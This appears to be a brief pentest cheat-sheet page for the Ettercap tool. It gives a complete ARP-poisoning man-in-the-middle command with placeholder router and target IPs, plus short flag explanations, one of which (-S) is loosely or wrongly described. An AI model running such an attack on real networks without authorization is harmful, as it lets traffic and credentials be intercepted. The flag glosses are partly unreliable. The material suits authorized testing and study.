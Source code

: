 ```yaml
---
title: ETTERCAP
summary: A comprehensive suite for man in the middle attacks.
description: A comprehensive suite for man in the middle attacks.
---
```


**[https://github.com/Ettercap/ettercap](https://github.com/Ettercap/ettercap)**

## ETTERCAP Base


 > 
 > **<font color=red>ettercap -T -S -i</font> wlan0 <font color=red>-M arp:remote /</font>\[ROUTER_IP\]<font color=red>// /</font>\[TARGET_IP\]<font color=red>//</font>**

## ETTERCAP Flags


 > 
 > **<font color=red>-T</font></br>**
 > Text Only (no GUI). 
 > 
 > **<font color=red>-S</font></br>**
 > Do no use SSL.
 > 
 > **<font color=red>-i </font>wlan0</br>**
 > Specify interface.
 > 
 > **<font color=red>-M </font></br>**
 > Man In The Middle Attack.
 > 
 > **<font color=red>arp:remote</font></br>**
 > Attack Method.
